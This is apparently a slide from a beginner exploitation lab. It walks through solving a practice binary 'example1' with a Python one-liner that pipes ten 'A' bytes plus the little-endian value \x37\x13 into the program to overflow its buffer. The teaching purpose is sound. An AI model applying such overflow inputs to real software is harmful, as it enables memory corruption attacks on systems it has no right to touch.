

# Solving example1
Open a terminal (if you have not done so already) and type the command:
python -c “print ‘A’ * 10 + ‘\x37\x13’” | ./example1
So what is going on there?
 buffer filled with 10 A’s (buff = AAAAAAAAAA)
 Hex value concatenated to A’s and passed in Little Endian